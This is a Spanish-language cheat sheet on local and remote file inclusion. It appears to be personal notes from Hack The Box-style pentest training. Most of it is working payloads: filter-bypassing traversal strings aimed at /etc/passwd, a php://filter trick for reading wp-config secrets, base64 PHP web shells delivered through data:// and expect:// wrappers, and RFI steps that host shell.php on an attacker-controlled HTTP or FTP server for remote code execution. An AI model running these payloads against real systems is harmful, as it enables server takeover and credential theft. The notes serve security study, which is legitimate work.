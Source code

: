 # LFI & Path Traversal

## LFI
- [Paylaods Fuzzing](https://raw.githubusercontent.com/emadshanab/LFI-Payload-List/master/LFI%20payloads.txt)
- Ejemplo para bypassear filtros: `....//....//....//....//etc/passwd`
- Encodearlo en URL también sirve: `%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64`

## como poder ver archivos mediante path traversal con PHP wrappers
- `php://filter/read=convert.base64-encode/resource=ARCHIVO-PHP`
- Con esto podriamos ver una clave en texto plano en un wordpress, en el wp-config por ejemplo, el phpinfo, etc.

## Ejemplo de RCE
- `echo '<?php system($_GET["cmd"]); ?>' | base64`
- `http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id`

## Expect PHP Wrapper
- Este wrapper permite correr comandos directo desde URL parecido a las web shells
```bash
GNT@htb[/htb]$ curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## RFI (Remote file inclusion)
- Permite a un atacante incluir un archivo generalmente explotando la inclusión de un archivo dinamico implementado en el aplicativo.
- Ocurre cuando en un user input no hay una validación apropiada.
- en PHP podemos chequearlo con `allow_url_include`, también podemos directamente incluir un URL como payload.
    - `http://<SERVER_IP>:<PORT>/index.php?language=http://127.0.0.1:80/index.php`

### RCE + RFI
- `echo '<?php system($_GET["cmd"]); ?>' > shell.php`
- `python3 -m http.server 80`
- `http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id`
- con ftp `python3 -m pyftpdlib -p 21`
- `http://<SERVER_IP>:<PORT>/index.php?language=ftp://<OUR_IP>/shell.php&cmd=id`